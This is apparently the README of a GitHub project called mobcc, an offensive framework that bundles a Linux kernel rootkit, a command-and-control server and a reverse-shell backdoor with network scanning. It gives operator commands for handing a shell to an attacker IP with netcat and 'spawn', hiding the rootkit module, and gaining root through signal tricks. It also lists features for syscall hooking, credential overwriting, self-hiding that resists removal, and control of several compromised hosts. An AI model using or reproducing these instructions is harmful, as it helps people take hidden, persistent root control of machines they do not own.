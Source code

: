 # mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.


Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

Select the added Device and start sending commands to the target system.

As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.



# Note:
Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.

No one can remove the module if it's hidden.


# Help

To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'

To scan the internal network from the target system. 'scan'

To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'

To toggle between hide and show the kernel module. 'kill -63 1'

To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'


Linux Kernel Rootkit:
    -   Use the Makefile to build the module.
    -   ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
    -   Hide and Unhide itself from modules lists.
    -   Granting root permissions by updating root credentials.
    -   Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

Command & Control server:
	-	Add new devices to the database by autocollecting IP from the Https requests.
	-	Connect to the target system via reverse shell/backdoor.
	-	Send commands and recieve response from the target system via reverse shell.
	-	Provide list of all the commands and response from every compromised system.
	-	Handle requests from multiple compromised systems simultaneously.

Reverse shell / Backdoor:
	-	When executed, request the C2 server to add this device to the database.
	-	Establish the connection between the C2 server and the target system.
	-	Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
	-	Scan the network and open ports for potential vulnerabilities in other connected systems.



Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/
